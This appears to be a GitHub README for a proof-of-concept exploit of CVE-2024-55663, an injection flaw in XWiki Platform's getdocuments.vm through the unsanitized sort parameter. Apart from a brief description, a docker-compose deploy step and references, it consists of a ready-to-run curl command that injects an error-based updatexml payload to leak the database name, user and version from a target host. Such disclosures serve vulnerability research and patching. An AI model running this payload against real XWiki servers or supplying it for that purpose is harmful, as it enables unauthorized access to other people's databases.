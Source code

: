 ##  CVE-2024-55663
## VULNERABILITY DETAILS
XWiki Platform has an SQL injection in getdocuments.vm with sort parameter

In getdocument.vm ; the ordering of the returned documents is defined from an unsanitized request parameter (request.sort) and can allow any user to inject HQL ; see https://github.com/xwiki/xwiki-platform/blob/029c324dc3eeac1401210b420460bdfb970346e7/xwiki-platform-core/xwiki-platform-web/src/main/webapp/templates/getdocuments.vm#L75

## VULNERABILITY
xwiki:11.10.8-mysql-tomcat (tested)

## Deploy:
```
docker-compose up
```

## Exploit:
``` 
curl --silent "http://<Host>/xwiki/bin/get/Documentation/WebHome?xpage=xpart&vm=getdocuments.vm&sort=1,updatexml(rand(),concat(CHAR(126),database(),char(124),user(),char(124),version(),CHAR(126)),null)" | grep -Eo "~(.*)~" 
```



https://github.com/user-attachments/assets/452120b2-4e93-484d-90e6-97d6606eba28




## References:
- https://jira.xwiki.org/browse/XWIKI-17568
- https://nvd.nist.gov/vuln/detail/CVE-2024-55663
- https://blog.programster.org/deploy-your-won-wiki-with-xwiki
